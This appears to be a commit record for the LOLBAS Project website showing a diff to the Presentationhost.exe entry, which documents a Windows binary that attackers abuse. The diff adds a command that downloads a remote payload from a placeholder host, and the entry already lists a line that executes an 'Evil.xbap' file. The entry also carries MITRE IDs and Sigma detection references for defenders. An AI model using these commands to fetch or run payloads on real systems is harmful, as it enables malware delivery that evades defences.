

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Presentationhost.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Applying update LOLBAS-Project/LOLBAS@f29471dde9cd18e59d5851165a2272a3f97c8ab5

```diff
--- a/_lolbas/Binaries/Presentationhost.md
+++ b/_lolbas/Binaries/Presentationhost.md
@@ -1,7 +1,7 @@
 ---
 Name: Presentationhost.exe
 Description: File is used for executing Browser applications
-Author: 'Oddvar Moe'
+Author: Oddvar Moe
 Created: 2018-05-25
 Commands:
   - Command: Presentationhost.exe C:\temp\Evil.xbap
@@ -11,11 +11,16 @@ Commands:
     Privileges: User
     MitreID: T1218
     OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
+  - Command: Presentationhost.exe https://example.com/payload
+    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
+    Usecase: Downloads payload from remote server
+    Category: Download
+    Privileges: User
+    MitreID: T1105
+    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
 Full_Path:
   - Path: C:\Windows\System32\Presentationhost.exe
   - Path: C:\Windows\SysWOW64\Presentationhost.exe
-Code_Sample:
-  - Code:
 Detection:
   - Sigma: https://github.com/SigmaHQ/sigma/blob/a38c0218765a89f5d18eadd49639c72a5d25d944/rules/windows/process_creation/win_susp_presentationhost_execution.yml
   - IOC: Execution of .xbap files may not be common on production workstations
@@ -25,4 +30,6 @@ Resources:
 Acknowledgement:
   - Person: Casey Smith
     Handle: '@subtee'
+  - Person: Nir Chako (Pentera)
+    Handle: '@C_h4ck_0'
 ---
```
Also changed, not shown: _lolbas/Binaries/ConfigSecurityPolicy.md (+11 -1 lines), _lolbas/Binaries/Installutil.md (+10 -3 lines), _lolbas/Binaries/Mshta.md (+10 -1 lines).
